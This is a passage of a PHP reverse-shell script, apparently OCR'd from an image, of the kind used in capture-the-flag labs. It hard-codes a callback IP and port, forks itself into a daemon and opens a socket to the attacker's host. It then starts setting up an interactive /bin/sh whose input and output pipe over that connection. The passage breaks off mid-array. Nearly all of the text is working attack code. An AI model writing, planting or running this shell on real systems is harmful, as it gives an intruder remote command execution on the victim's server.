 ```<?php

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.14.46';  // CHANGE THIS
$port = 9999;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
        // Fork and have the parent process exit
        $pid = pcntl_fork();

        if ($pid == -1) {
                printit("ERROR: Can't fork");
                exit(1);
        }

        if ($pid) {
                exit(0);  // Parent exits
        }

        // Make the current process a session leader
        // Will only succeed if we forked
        if (posix_setsid() == -1) {
                printit("Error: Can't setsid()");
                exit(1);
        }

        $daemon = 1;
} else {
        printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
        printit("$errstr ($errno)");
        exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
```